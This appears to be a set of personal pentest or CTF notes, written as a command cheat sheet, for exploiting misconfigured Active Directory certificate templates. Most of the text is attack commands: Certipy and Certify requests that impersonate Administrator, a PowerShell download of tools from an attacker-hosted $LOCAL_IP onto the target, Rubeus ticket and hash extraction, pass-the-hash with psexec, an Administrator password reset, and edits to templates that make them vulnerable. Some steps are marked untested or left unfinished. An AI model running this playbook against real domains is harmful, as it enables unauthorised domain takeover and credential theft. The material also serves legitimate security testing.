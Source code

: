 Using Certipy
---
#certipy #Certificate-Abuse

First sync time to DC:
```shell
sudo rdate -n $DCNAME
```
OR
```shell
sudo ntpdate $DCNAME
```
and then restore
```shell
sudo ntpdate pool.ntp.org
```

SCAN AND EXPLOIT ESC 1 - 11 vulnerable certificate templates with certipy
---
#certipy #vulnerable-template #ad #active-directory #ad-template 

find vulnerable cert templates:
```shell
certipy find -u $USER -p $PASS -dc-ip $TARGET_IP -vulnerable -stdout -text
```
request enrollment of user in template:
```shell
certipy req -u $USER -p $PASS -ca $AD_CA_NAME -target $AD_DNS_NAME -template $TEMPLATE_FOUND_NAME -upn Administrator@$DOMAIN -debug
```
exploit to get admin hash:
```shell
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```

Exploiting misconfigured Certificate template with Rubeus and Certify:
---
#ad #ad-template #misconfiguration #rubeus #certify 

Download certify.exe and Rubeus:

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Certify.exe -O Certify.exe
```

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe -O Rubeus.exe
```

Download on target:

```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
and run the search
```powershell
./certify.exe find /vulnerable
./certify.exe request /ca:dc.$DOMAIN\$DOMAIN-DC-CA /template:UserAuthentication /altname:Administrator
```

After that download the cert using evil-winrm:

```powershell
download cert.pem
```

```shell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Upload cert.pfx back to target and perform TGT request:

```powershell
upload cert.pfx
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
```

or  get hash for evil-winrm etc.:

```powershell
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

```sh
psexec.py -hashes $HASH:$HASH $USER@$TARGET_IIP
```

then

```powershell
./Rubeus.exe changepw /ticket:doIG2DCCBtSg…<snip>…== /new:Password123!! /targetuser:$DOMAIN\Administrator
```

OR use:

```link
https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
```
instead of rubeus.exe for asktgt function

OR get hash with

```
getnthash.py (untested)
```

then copy ticket.kirbi to LOCAL machine and :

```shell
base64 -di ticket.kirbi >> ticket.bin
impacket-ticketConverter ticket.bin ticket.ccache
cp ticket.ccache /tmp/krb5cc_0
export KRB5CCNAME=/home/kali/box-$TARGET_NAME/files/ticket.ccache
```

```
impacket-
```

Check with:

```shell
echo $KRB5CCNAME
klist -f
sudo nano /etc/krb5.conf
```

```config
$DOMAIN = {
  kdc = dc.$DOMAIN
  admin_server = dc.$DOMAIN
}
```

then sync time with DC domain controller server

```shell
sudo ntpdate $DOMAIN_CONTROLLER
```

Finally login to server using kerberos auth:

```shell
impacket-psexec $TARGET_DOMAIN/Administrator@$DOMAIN_CONTROLLER -target-ip $TARGET_IP -dc-ip $TARGET_IP -no-pass -k
```

Powershell cmds:
---
untested, should be ok substitute for ADCSTemplate module:
```powershell
$Properties = @{}
$Properties.Add('mspki-certificate-name-flag',1)
$Properties.Add('pkiextendedkeyusage',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('msPKI-Certificate-Application-Policy',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('flags',0)
$Properties.Add('mspki-enrollment-flag',0)
$Properties.Add('mspki-private-key-flag',256) # 0x100
$Properties.'mspki-private-key-flag' += 16 # 0x10
$Properties.Add('pkidefaultkeyspec',1)
$Properties.Add('pKIDefaultCSPs','1,Microsoft RSA SChannel Cryptographic Provider')
Import-Module ActiveDirectory
Set-AdObject "CN=TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local" -Replace $Properties
```
Create a com object and set the subject alternative name
```powershell
$SAN = New-Object -ComObject X509Enrollment.CX509ExtensionAlternativeNames
$IANs = New-Object -ComObject X509Enrollment.CAlternativeNames
$IAN = New-Object -ComObject X509Enrollment.CAlternativeName
$IAN.InitializeFromString(0xB,"Administrator@$AD_DOMAIN") # UPN to use
$IANs.Add($IAN)
$SAN.InitializeEncode($IANs)
```
Create a request object to request the certificate based on a template
```powershell
$Request = New-Object -ComObject X509Enrollment.CX509Enrollment
$Request.InitializeFromTemplateName(0x1,"TemplateName") # Template to use
$Request.Request.X509Extensions.Add($SAN)
$Request.CertificateFriendlyName = "TemplateName" # Template to use
```
Enroll the certificate:
```powershell
$Request.Enroll()
```

Using CertReq(untested):
---
request.inf

```inf
[NewRequest]
Subject = "CN=ComputerName,CN=Computers,DC=domain,DC=local"
Exportable = TRUE
KeyLength = 2048
KeySpec = 1
KeyUsage = 0x60
MachineKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
[RequestAttributes]
CertificateTemplate=Web
SAN="upn=Administrator@$ADDOMAIN"
[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=Administrator@$ADDOMAIN"
[EnhancedKeyUsageExtension]
OID = 1.3.6.1.4.1.311.20.2.2
OID = 1.3.6.1.5.5.7.3.2
```

then

```powershell
certreq -q -new request.inf request.pem
certreq -q -submit request.pem cert.pem
certreq -q -accept cert.pem
```